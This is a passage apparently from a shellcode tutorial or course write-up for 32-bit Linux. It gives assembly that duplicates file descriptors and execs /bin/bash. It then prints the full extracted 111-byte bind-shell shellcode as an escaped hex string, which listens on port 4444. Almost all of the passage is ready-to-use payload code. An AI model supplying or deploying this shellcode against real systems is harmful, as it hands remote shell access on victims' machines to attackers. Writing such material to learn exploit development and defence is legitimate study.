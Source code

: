 ```
dup:

        ; int dup2(int oldfd, int newfd)

        ; load dup2 into eax 
        ; ecx has our counter for stdin/out/err
        
        mov al, 63
        int 0x80
        dec ecx
        jns dup

shell:

        ; int execve(const char *pathname, char *const argv[], char *const envp[])

        ; Zero Out eax for first null (envp) and push to stack
        xor eax, eax
        push eax

        ; Now, push the string bin bash onto the stack for argv
        push 0x68736162
        push 0x2f6e6962
        push 0x2f2f2f2f

        ; Now, need filename pointer
        ; EZ, pop into EBX
        mov ebx, esp

        ; push another null
        push eax
        mov edx, esp

        push ebx

        mov ecx, esp

        ; Now, set up syscall
        mov al, 0xb
        int 0x80
```

It's not small, clocking in at 111 bytes, but there are no nulls, either. So that's cool. There are some easy optimizations that could be made and probably 5 bytes or so could be saved within the execve call alone.
```
$ objdump -d ./bind_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xb3\x01\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x05\x56\x89\xe1\xcd\x80\xfe\xc3\xb0\x66\x31\xd2\x52\x52\x56\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
